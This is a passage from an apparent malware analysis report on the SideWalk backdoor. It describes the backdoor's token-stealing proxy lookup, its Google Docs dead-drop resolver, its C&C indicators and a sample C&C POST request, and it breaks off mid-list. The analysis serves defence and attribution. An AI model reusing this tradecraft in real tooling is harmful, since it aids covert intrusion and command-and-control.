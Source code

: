 
If SideWalk is able to adjust its privileges to SeDebugPrivilege, it tries to retrieve the proxy configuration from HKU\<user SID>\Software\Microsoft\Windows\CurrentVersion\Internet Settings\ProxyServer. Otherwise, it tries to fetch it from HKCU\Software\Microsoft\Windows\CurrentVersion\Internet Settings\ProxyServer.

If a proxy is found, SideWalk will use it to communicate with the C&C server. This behavior is very similar to the way proxies are handled by CROSSWALK.
SideWalk attempts to obtain the proxy configuration of the current user session by stealing the user token from explorer.exe (the process name to search for is in the configuration) and calling the Windows API WinHttpGetIEProxyConfigForCurrentUser.
Note that SideWalk has the necessary permissions to impersonate logged-on users because it is loaded by the InstallUtil-based .NET loader, which persists as a scheduled task, and so runs under the SYSTEM account. Interestingly, the same procedure to get the explorer.exe token is described on this Chinese language blog. The decompiled procedure is shown in Figure 8.
Figure 8. Decompiled code responsible for user impersonation before retrieving the proxy configuration
Requests formats
The Google Docs page used by SideWalk as a dead-drop resolver is shown in the following screenshot (Figure 9), and at the time of writing, it is still up. Note that anyone can edit this page.
Figure 9. Google Docs document used by SideWalk as dead-drop resolver
The string present on this page has the format depicted in Figure 10.
Figure 10. Format of the string hosted on the Google Docs document
This string is composed of:

Delimiters used for proper parsing.
A payload and its size, which consists of a ChaCha20-encrypted IP address, the key to decrypt it, and, for an integrity check, the hash of the decryption key.
Additional strings that are currently unused.

To facilitate the potential future usage of that formatting, we have provided a script in our GitHub repository.
The decrypted IP address is 80.85.155[.]80. That C&C server uses a self-signed certificate for the facebookint[.]com domain. This domain has been attributed to BARIUM by Microsoft, which partially overlaps with what we define as Winnti Group. As this IP address is not the first one to be used by the malware, it is considered to be the fallback one.
The communication protocol used by SideWalk to communicate with its C&C server is HTTPS and the format of the POST request headers sent to the C&C can be seen in Figure 11.
POST /M26RcKtVr5WniDVZ/5CDpKo5zmAYbTmFl HTTP/1.1
Cache-Control: no-cache
Connection: close
Pragma: no-cache
User-Agent: Mozilla/5.0 Chrome/72.0.3626.109 Safari/537.36
gtsid: zn3isN2C6bWsqYvO
gtuvid: 7651E459979F931D39EDC12D68384C21249A8DE265F3A925F6E289A2467BC47D
Content-Length: 120
Host: update.facebookint.workers.dev
Figure 11. Example of a POST request used by SideWalk
Both the URL and the values of the gtsid and gtuvid parameters are randomly generated. The Host field is either the IP fetched from Google Docs, or is set to update.facebookint.workers[.]dev. The data of the POST request is an encrypted payload. The format used by this request is the communication format used by SideWalk operators between C&C server and infected machines, e.g., requests and responses. The format of the POST request data is shown in Figure 12.
Figure 12. Format of the POST request data
Note that this format is used for both the request and the response, meaning that when SideWalk handles the data sent back from the C&C server, it parses it according to the same format. There is no particular similarity in the C&C server communication side between CROSSWALK and SideWalk.
In this format, the fields are:
